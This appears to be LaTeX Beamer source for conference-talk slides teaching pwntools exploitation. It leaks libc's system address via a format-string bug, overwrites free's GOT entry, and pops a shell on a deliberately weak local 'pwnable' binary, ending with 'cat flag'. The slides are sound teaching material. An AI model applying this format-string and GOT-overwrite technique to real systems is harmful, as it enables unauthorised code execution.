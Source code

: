 \documentclass[t]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Leaking the address of \texttt{system}}
    \pause Idea:
    \begin{itemize}
            \pause \item Do what the dynamic linker would do!
            \pause \item We will use our memory leaker!
            \pause \item Do pointer chasing and hashtable lookups inside ELF files.
            \pause \item Pwntools have built-in support for this: DynELF!!
    \end{itemize}
    \begin{lstlisting}[language=python, style=custompy]
 e = ELF("./pwnable")
 d = DynELF(printf.leaker, elf=e)
 system = d.lookup("system", "libc.so")
    \end{lstlisting}
    \pause
    The variable \texttt{system} now contains the address of \texttt{system} inside the running process \texttt{./pwnable}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Overwriting the GOT entry of \texttt{free}}
    \pause Easy!!!
    \pause We will just use the format string exploit again!
    \pause
    \begin{lstlisting}[language=Python, style=custompy]
 printf.write(e.got["free"], system)
 printf.execute_writes()
    \end{lstlisting}
    \pause
    What is left is just to call free, and we are done!
    \pause
    \begin{lstlisting}[language=Python, style=custompy]
 r.sendline("quit") #Trigger, call system("/bin/sh")
 r.clean()
 r.interactive()
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \begin{lstlisting}[style=custompy]
[+] Opening connection to localhost on port 1337: Done
[*] Found format string offset: 7
[*] '/home/jonas/code/lightning-talk-33c3/pwnable'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
[+] Loading from '/home/jonas/code/lightning-talk-33c3/pwnable': 0xf77be930
[+] Resolving 'system' in 'libc.so': 0xf77be930
[*] Switching to interactive mode
$ whoami
pwnable
$ cat flag
omglol, hello 33C3!!!
$ 
    \end{lstlisting}
\end{frame}
\end{document}
